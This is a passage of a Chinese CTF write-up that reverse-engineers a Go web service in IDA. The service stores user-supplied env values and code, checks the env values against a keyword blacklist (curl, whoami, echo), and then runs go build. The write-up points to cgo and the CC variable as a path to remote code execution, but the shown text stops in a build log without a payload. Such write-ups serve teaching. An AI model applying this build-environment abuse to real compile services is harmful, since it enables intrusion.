

# It's Mygo!!!\!!🎤🎸🎸🥁🎸 Golang's Funeral 🎹
> Author: 堇姬Naup

tag: `web`、`reverse`、`pwn`、`golang`、`MyGo!!!!!`

發現的一個golang trick，順便讓各位玩看看golang逆向
## IDA分析
我沒有拔掉debug symbol(因為我發現拔掉好像會太難逆)
以下可以搭配釋出的source code跟golang官方文檔，裡面有該函數原本的樣子，比較容易看懂

golang官方文檔
https://pkg.go.dev/net/http
https://pkg.go.dev/os/exec


先從入口main.main開始看


`net_http__ptr_ServeMux_Handle` 他會設置route的handler
包括 "/mygolang"、"/itsmygo" 和"/"
https://pkg.go.dev/net/http#ServeMux.HandleFunc
ServeMux具體在golang實現會向是這樣
```go
http.HandleFunc("/foo", func(w http.ResponseWriter, r *http.Request) {
  w.Write([]byte("Receive path foo"))
 })
```

ida如下
```c
  v9.tab = (runtime_itab *)net_http_DefaultServeMux;
  v9.data = &unk_69727F;
  v11.len = (int)&go_itab_net_http_HandlerFunc_comma_net_http_Handler;
  v11.cap = (int)&pattern;
  net_http__ptr_ServeMux_Handle(v9, (net_http_ServeMux *)9, *(string *)&v11.len);
  v9.tab = (runtime_itab *)net_http_DefaultServeMux;
  v9.data = &unk_696DD9;
  v11.len = (int)&go_itab_net_http_HandlerFunc_comma_net_http_Handler;
  v11.cap = (int)&off_6C4930;
  net_http__ptr_ServeMux_Handle(v9, (net_http_ServeMux *)8, *(string *)&v11.len);
  v9.tab = (runtime_itab *)net_http_DefaultServeMux;
  v9.data = "/";
  v11.len = (int)&go_itab_net_http_HandlerFunc_comma_net_http_Handler;
  v11.cap = (int)&off_6C4928;
  net_http__ptr_ServeMux_Handle(v9, (net_http_ServeMux *)&unk_1, *(string *)&v11.len);
```

這東西跟處理filehandler有關係的，他也創建了一個route /static/，並要求他當一個prefix
https://pkg.go.dev/net/http#StripPrefix
```c
  v9.tab = (runtime_itab *)runtime_newobject((runtime__type *)&RTYPE_http_fileHandler);
  v9.tab->inter = (runtime_interfacetype *)&go_itab_net_http_Dir_comma_net_http_FileSystem;
  v9.tab->_type = (runtime__type *)&off_70B7D0;
  v9.data = (void *)8;
  v2 = &go_itab__ptr_net_http_fileHandler_comma_net_http_Handler;
  v11.len = (int)v9.tab;
  v9.tab = (runtime_itab *)&handler;
  net_http_StripPrefix(v9, *(net_http_Handler *)&v11.len, *(string *)&v11.cap);
  v11.len = (int)v9.tab;
  v11.cap = 8LL;
  v9.tab = (runtime_itab *)net_http_DefaultServeMux;
```
off_70B7E0，應該是印出跟開在哪個host 或是 port，等等的資訊
```c
  v9.data = (void *)&handler;
  net_http__ptr_ServeMux_Handle(v9, (net_http_ServeMux *)8, *(string *)&v11.len);
  a.array = (interface_ *)&RTYPE_string_0;
  a.len = (int)&off_70B7E0;
  v9.data = os_Stdout;
  v9.tab = (runtime_itab *)&go_itab__ptr_os_File_comma_io_Writer;
  v11.array = (interface_ *)&a;
  v11.len = 1LL;
  v11.cap = 1LL;
  fmt_Fprintln(v9, v11);
```

off_70B7E0
```
.rodata:000000000070B7E0 off_70B7E0      dq offset aServerStartedO
.rodata:000000000070B7E0                                         ; DATA XREF: main_main+FD↑o
.rodata:000000000070B7E0                                         ; "Server started om port http://localhost"...
```

設定 listen 在哪個 port (unk_69871D) `.rodata:000000000069871D a000020000      db '0.0.0.0:20000'      ; DATA XREF: main_main+13D↑o`
```c
  p_http_Server = (http_Server *)runtime_newobject((runtime__type *)&RTYPE_http_Server);
  p_http_Server->Addr.len = 13LL;
  p_http_Server->Addr.ptr = (char *)&unk_69871D;
  p_http_Server->Handler = v1;
  v4 = net_http__ptr_Server_ListenAndServe(p_http_Server);
```
看到這邊web server setting其實差不多了，接下來去分析其他地方，這裡我們直接鎖定重點

main.mygoooHandler
這裡根據網站是處理compiler的頁面
```c
if ( r->Method.len == 4 && *(_DWORD *)r->Method.str == 'TSOP' )
```
POST會進入到if，否則直接顯示該頁面
以下是complier 透過 POST method處理邏輯
處理跟user request有關，錯誤就印出ERROR

看到以下他先創建了一個 Object叫做 CompileRequest
https://pkg.go.dev/github.com/open-policy-agent/opa/test/e2e#TestRuntime.CompileRequest

也創建了 json_Decoder object 並針對傳入的 body (POST data)去做操作
https://pkg.go.dev/encoding/json#Decoder

之後就調用 JSON 解碼器的 Decode 方法

```c
    ra = r;
    w_8 = w.data;
    code = (int)w.tab;
    _req = (main_CompileRequest_0 *)runtime_newobject((runtime__type *)&RTYPE_main_CompileRequest_0);
    _req->Code.ptr = 0LL;
    data = ra->Body.data;
    v21.len = (int)runtime_convI2I((runtime_interfacetype *)&RTYPE_io_Reader_0, ra->Body.tab);
    p_json_Decoder = (json_Decoder *)runtime_newobject((runtime__type *)&RTYPE_json_Decoder);
    p_json_Decoder->r.tab = (void *)v21.len;
    if ( *(_DWORD *)&runtime_writeBarrier.enabled )
      runtime_gcWriteBarrierDX();
    else
      p_json_Decoder->r.data = data;
    v52._type = (runtime__type *)&RTYPE__ptr_main_CompileRequest;
    v52.data = _req;
    tab = encoding_json__ptr_Decoder_Decode((encoding_json_Decoder *)p_json_Decoder, v52).tab;
```

decode出問題則進入，並輸出error(這邊其實看組語更清楚)


這邊可以更清楚看到進入到error分支


這裡是顯示的頁面
```c
.rodata:000000000069B88B aStaticMygolang db './static/mygolang.html'

    v42.str = (uint8 *)&byte_69B88B;
    v42.len = 22LL;
    net_http_ServeFile(w, r, v42);
```

如果decode正確繼續則往下走，這部分會去生成Random hash，這是負責生成檔案名稱隨機值
```c
      RandomHash = main_generateRandomHash();
      if ( RandomHash._r1.tab )
      {
        *(_OWORD *)&v27.m256_f32[4] = v3;
        *(_QWORD *)v27.m256_f32 = &RTYPE_string_0;
        *(_QWORD *)&v27.m256_f32[2] = &off_70B7A0;
        *(_QWORD *)&v27.m256_f32[4] = RandomHash._r1.tab->_type;
        *(_QWORD *)&v27.m256_f32[6] = RandomHash._r1.data;
```

透過實際執行跟ida的內容不難知道./userFile會儲存兩種檔案.json .go 並且檔案名稱會加入上方生成出來的hash值 

接下來可以看到hash randon的值會被拿來幹嘛
這邊建一張表方便對應上面一些value是哪些string

|變數|value|
|---|---|
|byte_6977B6|./userFile|
|byte_698B34|%s/%s_env.json|

name是random hash的value
```c
name.str = RandomHash._r0.str;
```
v39先是`./userFile`，之後丟給`v29.m256_f32[2]`(想像成array的第一個值)
接著name被丟給v39之後丟給`v29.m256_f32[6]`，v29給v48，v39後來則拿到`%s/%s_env.json`，被丟入到fmt_Sprintf
最後變成 `fmt_Sprintf("%s/%s_env.json", "./userFile", <random hash>)`
並把串好的值丟回給name
這裡就可以知道這邊組成了一個路徑，你在source code中也可以清楚的看到該目錄

https://pkg.go.dev/fmt

```c
          *(_OWORD *)v29.m256_f32 = v3;
          *(_OWORD *)&v29.m256_f32[4] = v3;
          v39.str = (uint8 *)&byte_6977B6;
          v39.len = 10LL;
          v39.str = (uint8 *)runtime_convTstring(v39);
          *(_QWORD *)v29.m256_f32 = &RTYPE_string_0;
          *(_QWORD *)&v29.m256_f32[2] = v39.str;
          v39.str = name.str;
          v39.len = (int)&RTYPE__ptr_main_CompileRequest;
          v39.str = (uint8 *)runtime_convTstring(v39);
          *(_QWORD *)&v29.m256_f32[4] = &RTYPE_string_0;
          *(_QWORD *)&v29.m256_f32[6] = v39.str;
          v39.str = (uint8 *)&byte_698B34;
          v39.len = 14LL;
          v48.len = 2LL;
          v48.cap = 2LL;
          v48.array = (interface_ *)&v29;
          name.len = (unsigned __int64)fmt_Sprintf(v39, v48).str;
```

之後就是做json_Marshal(對傳入的req->Env)，他是一個可以去循環遍歷的一個function，將傳入的資料轉成Json，之後去做writefile
看一下writefile的長相
`WriteFile(filename string, data []byte, perm fs.FileMode)`
這邊基本上可以確定的是req->Env被丟入後轉成json被寫入到userFile下
https://pkg.go.dev/encoding/json#Marshal
https://pkg.go.dev/io/ioutil#WriteFile

```c
          v40._type = (runtime__type *)&RTYPE_map_string_string_0;
          v40.data = _req->Env;
          v54 = encoding_json_Marshal(v40);
          v54._r1.tab = (runtime_itab *)v54._r0.len;
          v54._r1.data = (void *)v54._r0.cap;
          v54._r0.len = 14LL;
          v54._r0.cap = (int)v54._r0.array;
          v54._r0.array = (uint8 *)name.len;
          v10 = os_WriteFile(*(string *)&v54._r0.array, *(_slice_uint8 *)&v54._r0.cap, 0x1A4u);
```

這邊我一樣列出對應關係，不過基本上跟上面一樣
|變數|value|
|---|---|
|byte_6977B6|./userFile|
|byte_696DA9|%s/%s.go|

這邊基本上可以確定的是req->Code被寫入到userFile下(一個.go)
```c
            *(_OWORD *)v29.m256_f32 = v3;
            *(_OWORD *)&v29.m256_f32[4] = v3;
            v42.str = (uint8 *)&byte_6977B6;
            v42.len = 10LL;
            v42.str = (uint8 *)runtime_convTstring(v42);
            *(_QWORD *)v29.m256_f32 = &RTYPE_string_0;
            *(_QWORD *)&v29.m256_f32[2] = v42.str;
            v42.str = name.str;
            v42.len = (int)&RTYPE__ptr_main_CompileRequest;
            v42.str = (uint8 *)runtime_convTstring(v42);
            *(_QWORD *)&v29.m256_f32[4] = &RTYPE_string_0;
            *(_QWORD *)&v29.m256_f32[6] = v42.str;
            v42.str = (uint8 *)&byte_696DA9;
            v42.len = 8LL;
            v50.len = 2LL;
            v50.cap = 2LL;
            v50.array = (interface_ *)&v29;
            v21.str = fmt_Sprintf(v42, v50).str;
            v50.array = (interface_ *)_req->Code.len;
            ptr = _req->Code.ptr;
            v50 = (_slice_interface_)runtime_stringtoslicebyte((runtime_tmpBuf *)buf, *(string *)&v50.array);
            v50.len = v13;
            v50.cap = (int)v50.array;
            v43.len = 8LL;
            v50.array = v14;
            v43.str = v21.str;
            v15 = os_WriteFile(v43, (_slice_uint8)v50, 0x1A4u);
```

之後就進了`main_mygoooHandler_func1`
```c
              v17 = (runtime_funcval *)runtime_newobject((runtime__type *)&stru_67DD20);
              v17->fn = (uintptr)main_mygoooHandler_func1;
              v17[2].fn = 14LL;
```

進重點先提一下這個，這是為了防止他在你的command卡住所以設了timeout，你在解題時就會發現，你用curl他其實會重複好幾次，但在遠端跑可能只Request兩三次就斷開就是這個原因
https://pkg.go.dev/context#WithTimeout
```c
  val = *(_QWORD *)(v0 + 48);
  v50.str = *(uint8 **)(v0 + 8);
  v106.tab = (runtime_itab *)context_background;
  v106.data = (void *)10000000000LL;
  v52 = context_WithTimeout((__int64)&go_itab__ptr_context_emptyCtx_comma_context_Context, v106, v3);
  v50.len = (int)v106.tab;
  v72 = (void (__golang **)(runtime_itab *, void *))v106.data;
  str = v50.str;
```

這部分重點就兩個第一部分
```c
LABEL_39:
      v43 = v15;
      v51.len = (int)v14;
      v33 = v14[1];
      v98.str = (uint8 *)*v14;
      v98.len = v33;
      v34 = strings_Index(*(string *)&v12, v98);
      v35 = v34 < 0;
      if ( v34 >= 0 )
        break;
      v32 = v43 + 1;
      if ( v43 + 1 >= 10 )
      {
        v35 = v34 < 0;
        break;
      }
    }
    if ( !v35 )
    {
      v55[0] = &RTYPE_string_0;
      v55[1] = &off_70B800;
      v94.data = os_Stdout;
      v94.tab = (runtime_itab *)&go_itab__ptr_os_File_comma_io_Writer;
      v105.array = (interface_ *)v55;
      v105.len = 1LL;
      v105.cap = 1LL;
      fmt_Fprintln(v94, v105);
      v95.str = v50.str;
      v95.len = (int)name;
      os_Remove(v95);
      v96.str = v51.str;
      v96.len = v42;
      v36 = os_Remove(v96);
      HIBYTE(File._r0.cap) = 0;
      (*v72)(v36.tab, v36.data);
      return;
    }
    v81.str = (uint8 *)v47.len;
    v81.len = (int)File._r1.data;
    v97.str = (uint8 *)w.data;
    v97.len = (int)File._r1.data;
    os_Setenv(v81, v97);
    runtime_mapiternext(&it);
```
這裡要關注的我們寫進去的json env做了甚麼，他被當成環境變數去做設定了
https://pkg.go.dev/os#Setenv

```c
    v81.str = (uint8 *)v47.len;
    v81.len = (int)File._r1.data;
    v97.str = (uint8 *)w.data;
    v97.len = (int)File._r1.data;
    os_Setenv(v81, v97);
    runtime_mapiternext(&it);
```

寫進去的環境變數會去做檢查黑名單(檢查value是否有這些字串)，IDA在解析有跑掉，不過透過下方數字可以知道長度
```c
  ((void (__fastcall *)(char *))loc_464614)((char *)&File + 544);
  v71[0] = (__int64)&unk_696023;
  v71[1] = 2LL;
  v71[2] = (__int64)"curlcx16";
  v71[3] = 4LL;
  v71[4] = (__int64)"whoami";
  v71[5] = 6LL;
  v71[6] = (__int64)&unk_696121;
  v71[7] = 3LL;
  v71[8] = (__int64)&unk_696029;
  v71[9] = 2LL;
  v71[10] = (__int64)&unk_69601B;
  v71[11] = 2LL;
  v71[12] = (__int64)&unk_696308;
  v71[13] = 4LL;
  v71[14] = (__int64)&stru_695F58.str + 6;
  v71[15] = 1LL;
  v71[16] = (__int64)"echoerms";
  v71[17] = 4LL;
  v71[18] = (__int64)&unk_69629C;
  v71[19] = 4LL;
```
為何可以知道他是黑名單，因為這部分是檢查相關的，如果錯會噴error，或是可以透過error message直接知道這裡是黑名單


第二部分是看.go做了甚麼
先看這裡
```c
    v56 = v2;
    v82.str = v48;
    v82.len = val;
    v82.str = (uint8 *)runtime_convTstring(v82);
    *(_QWORD *)&v56 = &RTYPE_string_0;
    *((_QWORD *)&v56 + 1) = v82.str;
    v82.str = (uint8 *)"./userEXE/%s";
    v82.len = 12LL;
    v101.len = 1LL;
    v101.cap = 1LL;
    v101.array = (interface_ *)&v56;
    v16 = fmt_Sprintf(v82, v101).str;
```
這裡是把userEXE用fmt串成路徑
這部分則是傳入arg，分別是
byte_69601D(go)
unk_6964D5(build)
unk_695F87(-o)
```c
    arg.array = (string *)&unk_6964D5;
    arg.len = 5LL;
    arg.cap = (int)&unk_695F87;
```

最後被傳入os_exec_command，基本上到這裡就可以看出來
傳進去的.go會被編譯成執行檔(go build -o "your.go")
這裡會發現，你無法控os_exec_command，所以第一個坑點，Command injection不在這
第二個坑點，你傳進去的.go不會被執行，所以沒有任意golang code執行
```c
  p_arg = &arg;
  p_data = 4LL;
  v19 = 4LL;
  v20 = (exec_Cmd *)os_exec_Command(v83, *(_slice_string *)(&p_data - 1));
```

逆向到這裡其實差不多了，簡單梳理流程就是 送出 POST -> 將 request 的 env跟code存起來到檔案 執行os setenv去更改環境變數(根據剛剛存的檔案也就是你輸入的環境變數)，並去檢查你env的value是否吃黑名單，最後build你送進去的檔案 這題就是任意控env跟code他會幫你編譯卻不會執行的題目

## attack
這題目標要 RCE
這邊可以先看看golang會有哪些環境變數
輸入go env可以知道
	
```conf
GO111MODULE=""
GOARCH="amd64"
GOBIN=""
GOCACHE="/home/naup/.cache/go-build"
GOENV="/home/naup/.config/go/env"
GOEXE=""
GOEXPERIMENT=""
GOFLAGS=""
GOHOSTARCH="amd64"
GOHOSTOS="linux"
GOINSECURE=""
GOMODCACHE="/home/naup/go/pkg/mod"
GONOPROXY=""
GONOSUMDB=""
GOOS="linux"
GOPATH="/home/naup/go"
GOPRIVATE=""
GOPROXY="https://proxy.golang.org,direct"
GOROOT="/usr/lib/go-1.18"
GOSUMDB="sum.golang.org"
GOTMPDIR=""
GOTOOLDIR="/usr/lib/go-1.18/pkg/tool/linux_amd64"
GOVCS=""
GOVERSION="go1.18.1"
GCCGO="gccgo"
GOAMD64="v1"
AR="ar"
CC="gcc"
CXX="g++"
CGO_ENABLED="1"
GOMOD="/dev/null"
GOWORK=""
CGO_CFLAGS="-g -O2"
CGO_CPPFLAGS=""
CGO_CXXFLAGS="-g -O2"
CGO_FFLAGS="-g -O2"
CGO_LDFLAGS="-g -O2"
PKG_CONFIG="pkg-config"
GOGCCFLAGS="-fPIC -m64 -pthread -fmessage-length=0 -fdebug-prefix-map=/tmp/go-build2579239834=/tmp/go-build -gno-record-gcc-switches"
```

順便觀察一下golang在編譯時候的行為，我們去編譯這個
```go
package main
import "fmt"
func main() {
    fmt.Println("MyGo!!!!!")
}
```
	
```cmd
naup@naup-virtual-machine:~/Desktop/dist$ go build -x m.go 
WORK=/tmp/go-build980806300
mkdir -p $WORK/b001/
cat >$WORK/b001/importcfg << 'EOF' # internal
# import config
packagefile fmt=/usr/lib/go-1.18/pkg/linux_amd64/fmt.a
packagefile runtime=/usr/lib/go-1.18/pkg/linux_amd64/runtime.a
EOF
cd /home/naup/Desktop/dist
/usr/lib/go-1.18/pkg/tool/linux_amd64/compile -o $WORK/b001/_pkg_.a -trimpath "$WORK/b001=>" -p main -complete -buildid Vsh2hLhWiJJICn-H5QGb/Vsh2hLhWiJJICn-H5QGb -goversion go1.18.1 -c=2 -nolocalimports -importcfg $WORK/b001/importcfg -pack ./m.go
/usr/lib/go-1.18/pkg/tool/linux_amd64/buildid -w $WORK/b001/_pkg_.a # internal
cp $WORK/b001/_pkg_.a /home/naup/.cache/go-build/fe/fefe6b756cb52c2f43dcdf36df7185b972deafe8f4a6b45e8cd854903efd7c8d-d # internal
cat >$WORK/b001/importcfg.link << 'EOF' # internal
packagefile command-line-arguments=$WORK/b001/_pkg_.a
packagefile fmt=/usr/lib/go-1.18/pkg/linux_amd64/fmt.a
packagefile runtime=/usr/lib/go-1.18/pkg/linux_amd64/runtime.a
packagefile errors=/usr/lib/go-1.18/pkg/linux_amd64/errors.a
packagefile internal/fmtsort=/usr/lib/go-1.18/pkg/linux_amd64/internal/fmtsort.a
packagefile io=/usr/lib/go-1.18/pkg/linux_amd64/io.a
packagefile math=/usr/lib/go-1.18/pkg/linux_amd64/math.a
packagefile os=/usr/lib/go-1.18/pkg/linux_amd64/os.a
packagefile reflect=/usr/lib/go-1.18/pkg/linux_amd64/reflect.a
packagefile strconv=/usr/lib/go-1.18/pkg/linux_amd64/strconv.a
packagefile sync=/usr/lib/go-1.18/pkg/linux_amd64/sync.a
packagefile unicode/utf8=/usr/lib/go-1.18/pkg/linux_amd64/unicode/utf8.a
packagefile internal/abi=/usr/lib/go-1.18/pkg/linux_amd64/internal/abi.a
packagefile internal/bytealg=/usr/lib/go-1.18/pkg/linux_amd64/internal/bytealg.a
packagefile internal/cpu=/usr/lib/go-1.18/pkg/linux_amd64/internal/cpu.a
packagefile internal/goarch=/usr/lib/go-1.18/pkg/linux_amd64/internal/goarch.a
packagefile internal/goexperiment=/usr/lib/go-1.18/pkg/linux_amd64/internal/goexperiment.a
packagefile internal/goos=/usr/lib/go-1.18/pkg/linux_amd64/internal/goos.a
packagefile runtime/internal/atomic=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/atomic.a
packagefile runtime/internal/math=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/math.a
packagefile runtime/internal/sys=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/sys.a
packagefile runtime/internal/syscall=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/syscall.a
packagefile internal/reflectlite=/usr/lib/go-1.18/pkg/linux_amd64/internal/reflectlite.a
packagefile sort=/usr/lib/go-1.18/pkg/linux_amd64/sort.a
packagefile math/bits=/usr/lib/go-1.18/pkg/linux_amd64/math/bits.a
packagefile internal/itoa=/usr/lib/go-1.18/pkg/linux_amd64/internal/itoa.a
packagefile internal/oserror=/usr/lib/go-1.18/pkg/linux_amd64/internal/oserror.a
packagefile internal/poll=/usr/lib/go-1.18/pkg/linux_amd64/internal/poll.a
packagefile internal/syscall/execenv=/usr/lib/go-1.18/pkg/linux_amd64/internal/syscall/execenv.a
packagefile internal/syscall/unix=/usr/lib/go-1.18/pkg/linux_amd64/internal/syscall/unix.a
packagefile internal/testlog=/usr/lib/go-1.18/pkg/linux_amd64/internal/testlog.a
packagefile internal/unsafeheader=/usr/lib/go-1.18/pkg/linux_amd64/internal/unsafeheader.a
packagefile io/fs=/usr/lib/go-1.18/pkg/linux_amd64/io/fs.a
packagefile sync/atomic=/usr/lib/go-1.18/pkg/linux_amd64/sync/atomic.a
packagefile syscall=/usr/lib/go-1.18/pkg/linux_amd64/syscall.a
packagefile time=/usr/lib/go-1.18/pkg/linux_amd64/time.a
packagefile unicode=/usr/lib/go-1.18/pkg/linux_amd64/unicode.a
packagefile internal/race=/usr/lib/go-1.18/pkg/linux_amd64/internal/race.a
packagefile path=/usr/lib/go-1.18/pkg/linux_amd64/path.a
modinfo "0w\xaf\f\x92t\b\x02A\xe1\xc1\a\xe6\xd6\x18\xe6path\tcommand-line-arguments\nbuild\t-compiler=gc\nbuild\tCGO_ENABLED=1\nbuild\tCGO_CFLAGS=\nbuild\tCGO_CPPFLAGS=\nbuild\tCGO_CXXFLAGS=\nbuild\tCGO_LDFLAGS=\nbuild\tGOARCH=amd64\nbuild\tGOOS=linux\nbuild\tGOAMD64=v1\n\xf92C1\x86\x18 r\x00\x82B\x10A\x16\xd8\xf2"
EOF
mkdir -p $WORK/b001/exe/
cd .
/usr/lib/go-1.18/pkg/tool/linux_amd64/link -o $WORK/b001/exe/a.out -importcfg $WORK/b001/importcfg.link -buildmode=exe -buildid=OckkTGN8spR__1zW-PIY/Vsh2hLhWiJJICn-H5QGb/TP-nY9XUtgFY4fz87Avq/OckkTGN8spR__1zW-PIY -extld=gcc $WORK/b001/_pkg_.a
/usr/lib/go-1.18/pkg/tool/linux_amd64/buildid -w $WORK/b001/exe/a.out # internal
mv $WORK/b001/exe/a.out m
rm -r $WORK/b001/	
```
	
單純看下來其實控環境變數對於golang編譯的行為其實不大，大部分是設定路徑跟使用package之類的行為
這題還讓你們控編譯的code那當然就沒那麼單純只是修改環境變數就可以RCE了

如果你認真觀察golang的環境變數會發現，他有跟gcc相關的環境變數，但卻沒有用到gcc


在 golang 中撰寫函式庫時，通常這些函式庫只能供 golang 使用。這是因為 golang 在提供跨語言支援上並不如一些其他語言靈活，相比之下，C、C++ 或是 Rust 等語言提供了更好的選擇，因為它們在性能、跨語言互操作性上表現更佳。

除此之外，許多現有的 C 或 C++ 函式庫已經被使用多年，並且運行穩定，沒有理由僅僅因為想轉換到 golang 而將這些函式庫重新實作。因此，最合理的方式是讓 golang 直接利用這些現有的 C 或 C++ 程式碼，而不是重寫


golang官方就開發了cgo
https://pkg.go.dev/cmd/cgo
仔細想想，要使用cgo一定要有C / C++ 編譯器之類的
而 CC 這個環境變量的 g++ 就是指定了編譯器，並去使用他
	
	
```go
package main
import (
    "C"
    "fmt"
)
func main() {
    fmt.Println("hello world")
}
```
我們去 import C
再來看看編譯行為
```cmd
naup@naup-virtual-machine:~/Desktop/dist$ go build -x m.go 
WORK=/tmp/go-build2958605316
mkdir -p $WORK/b001/
cd /home/naup/Desktop/dist
TERM='dumb' CGO_LDFLAGS='"-g" "-O2"' /usr/lib/go-1.18/pkg/tool/linux_amd64/cgo -objdir $WORK/b001/ -importpath command-line-arguments -- -I $WORK/b001/ -g -O2 ./m.go
cd $WORK
gcc -fno-caret-diagnostics -c -x c - -o /dev/null || true
gcc -Qunused-arguments -c -x c - -o /dev/null || true
gcc -fdebug-prefix-map=a=b -c -x c - -o /dev/null || true
gcc -gno-record-gcc-switches -c -x c - -o /dev/null || true
cd $WORK/b001
TERM='dumb' gcc -I /home/naup/Desktop/dist -fPIC -m64 -pthread -fmessage-length=0 -fdebug-prefix-map=$WORK/b001=/tmp/go-build -gno-record-gcc-switches -I ./ -g -O2 -o ./_x001.o -c _cgo_export.c
TERM='dumb' gcc -I /home/naup/Desktop/dist -fPIC -m64 -pthread -fmessage-length=0 -fdebug-prefix-map=$WORK/b001=/tmp/go-build -gno-record-gcc-switches -I ./ -g -O2 -o ./_x002.o -c m.cgo2.c
TERM='dumb' gcc -I /home/naup/Desktop/dist -fPIC -m64 -pthread -fmessage-length=0 -fdebug-prefix-map=$WORK/b001=/tmp/go-build -gno-record-gcc-switches -I ./ -g -O2 -o ./_cgo_main.o -c _cgo_main.c
cd /home/naup/Desktop/dist
TERM='dumb' gcc -I . -fPIC -m64 -pthread -fmessage-length=0 -fdebug-prefix-map=$WORK/b001=/tmp/go-build -gno-record-gcc-switches -o $WORK/b001/_cgo_.o $WORK/b001/_cgo_main.o $WORK/b001/_x001.o $WORK/b001/_x002.o -g -O2
TERM='dumb' /usr/lib/go-1.18/pkg/tool/linux_amd64/cgo -dynpackage main -dynimport $WORK/b001/_cgo_.o -dynout $WORK/b001/_cgo_import.go
cat >$WORK/b001/importcfg << 'EOF' # internal
# import config
packagefile fmt=/usr/lib/go-1.18/pkg/linux_amd64/fmt.a
packagefile runtime/cgo=/usr/lib/go-1.18/pkg/linux_amd64/runtime/cgo.a
packagefile syscall=/usr/lib/go-1.18/pkg/linux_amd64/syscall.a
packagefile runtime=/usr/lib/go-1.18/pkg/linux_amd64/runtime.a
EOF
/usr/lib/go-1.18/pkg/tool/linux_amd64/compile -o $WORK/b001/_pkg_.a -trimpath "$WORK/b001=>" -p main -buildid 4yhnu8TZ7l1bcN-natjy/4yhnu8TZ7l1bcN-natjy -goversion go1.18.1 -c=2 -nolocalimports -importcfg $WORK/b001/importcfg -pack $WORK/b001/_cgo_gotypes.go $WORK/b001/m.cgo1.go $WORK/b001/_cgo_import.go
/usr/lib/go-1.18/pkg/tool/linux_amd64/pack r $WORK/b001/_pkg_.a $WORK/b001/_x001.o $WORK/b001/_x002.o # internal
/usr/lib/go-1.18/pkg/tool/linux_amd64/buildid -w $WORK/b001/_pkg_.a # internal
cp $WORK/b001/_pkg_.a /home/naup/.cache/go-build/b2/b23cd0a7318c2e4d4a0620fde83a19729de3706a3845412442e0b6a8eebdd9d5-d # internal
cat >$WORK/b001/importcfg.link << 'EOF' # internal
packagefile command-line-arguments=$WORK/b001/_pkg_.a
packagefile fmt=/usr/lib/go-1.18/pkg/linux_amd64/fmt.a
packagefile runtime/cgo=/usr/lib/go-1.18/pkg/linux_amd64/runtime/cgo.a
packagefile syscall=/usr/lib/go-1.18/pkg/linux_amd64/syscall.a
packagefile runtime=/usr/lib/go-1.18/pkg/linux_amd64/runtime.a
packagefile errors=/usr/lib/go-1.18/pkg/linux_amd64/errors.a
packagefile internal/fmtsort=/usr/lib/go-1.18/pkg/linux_amd64/internal/fmtsort.a
packagefile io=/usr/lib/go-1.18/pkg/linux_amd64/io.a
packagefile math=/usr/lib/go-1.18/pkg/linux_amd64/math.a
packagefile os=/usr/lib/go-1.18/pkg/linux_amd64/os.a
packagefile reflect=/usr/lib/go-1.18/pkg/linux_amd64/reflect.a
packagefile strconv=/usr/lib/go-1.18/pkg/linux_amd64/strconv.a
packagefile sync=/usr/lib/go-1.18/pkg/linux_amd64/sync.a
packagefile unicode/utf8=/usr/lib/go-1.18/pkg/linux_amd64/unicode/utf8.a
packagefile sync/atomic=/usr/lib/go-1.18/pkg/linux_amd64/sync/atomic.a
packagefile internal/bytealg=/usr/lib/go-1.18/pkg/linux_amd64/internal/bytealg.a
packagefile internal/itoa=/usr/lib/go-1.18/pkg/linux_amd64/internal/itoa.a
packagefile internal/oserror=/usr/lib/go-1.18/pkg/linux_amd64/internal/oserror.a
packagefile internal/race=/usr/lib/go-1.18/pkg/linux_amd64/internal/race.a
packagefile internal/unsafeheader=/usr/lib/go-1.18/pkg/linux_amd64/internal/unsafeheader.a
packagefile internal/abi=/usr/lib/go-1.18/pkg/linux_amd64/internal/abi.a
packagefile internal/cpu=/usr/lib/go-1.18/pkg/linux_amd64/internal/cpu.a
packagefile internal/goarch=/usr/lib/go-1.18/pkg/linux_amd64/internal/goarch.a
packagefile internal/goexperiment=/usr/lib/go-1.18/pkg/linux_amd64/internal/goexperiment.a
packagefile internal/goos=/usr/lib/go-1.18/pkg/linux_amd64/internal/goos.a
packagefile runtime/internal/atomic=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/atomic.a
packagefile runtime/internal/math=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/math.a
packagefile runtime/internal/sys=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/sys.a
packagefile runtime/internal/syscall=/usr/lib/go-1.18/pkg/linux_amd64/runtime/internal/syscall.a
packagefile internal/reflectlite=/usr/lib/go-1.18/pkg/linux_amd64/internal/reflectlite.a
packagefile sort=/usr/lib/go-1.18/pkg/linux_amd64/sort.a
packagefile math/bits=/usr/lib/go-1.18/pkg/linux_amd64/math/bits.a
packagefile internal/poll=/usr/lib/go-1.18/pkg/linux_amd64/internal/poll.a
packagefile internal/syscall/execenv=/usr/lib/go-1.18/pkg/linux_amd64/internal/syscall/execenv.a
packagefile internal/syscall/unix=/usr/lib/go-1.18/pkg/linux_amd64/internal/syscall/unix.a
packagefile internal/testlog=/usr/lib/go-1.18/pkg/linux_amd64/internal/testlog.a
packagefile io/fs=/usr/lib/go-1.18/pkg/linux_amd64/io/fs.a
packagefile time=/usr/lib/go-1.18/pkg/linux_amd64/time.a
packagefile unicode=/usr/lib/go-1.18/pkg/linux_amd64/unicode.a
packagefile path=/usr/lib/go-1.18/pkg/linux_amd64/path.a
modinfo "0w\xaf\f\x92t\b\x02A\xe1\xc1\a\xe6\xd6\x18\xe6path\tcommand-line-arguments\nbuild\t-compiler=gc\nbuild\tCGO_ENABLED=1\nbuild\tCGO_CFLAGS=\nbuild\tCGO_CPPFLAGS=\nbuild\tCGO_CXXFLAGS=\nbuild\tCGO_LDFLAGS=\nbuild\tGOARCH=amd64\nbuild\tGOOS=linux\nbuild\tGOAMD64=v1\n\xf92C1\x86\x18 r\x00\x82B\x10A\x16\xd8\xf2"
EOF
mkdir -p $WORK/b001/exe/
cd .
